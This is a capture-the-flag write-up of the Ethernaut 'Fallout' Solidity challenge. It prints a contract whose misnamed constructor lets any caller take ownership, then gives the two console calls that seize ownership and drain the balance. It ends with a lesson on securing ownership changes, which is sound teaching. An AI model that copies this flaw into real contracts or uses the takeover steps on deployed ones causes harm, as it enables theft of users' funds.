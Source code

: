 # Fallout

### Contract Code
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```
# Solution
This contract takes advantage of a very simple mistake which is not requiring condtions in order to claim ownership of the contract.
This contract has many functions but what we want to pay attention to is Fal1out(). This function allows whovever runs it to claim ownership of the contract.

Run:
> await contract.Fal1out()

After running, we will be the new owner. We can verify this by running:
> await contract.owner

Now we need to drain the contract of its funds. There is a function called collectAllocations() that allows the owner to transfer funds to thier adderess.

Run:
> await contract.collectAllocations()

# What I learned
1. Make sure that when changing ownership of a contract that you have specifc requirements for such action or to now allow a change of ownership at all.
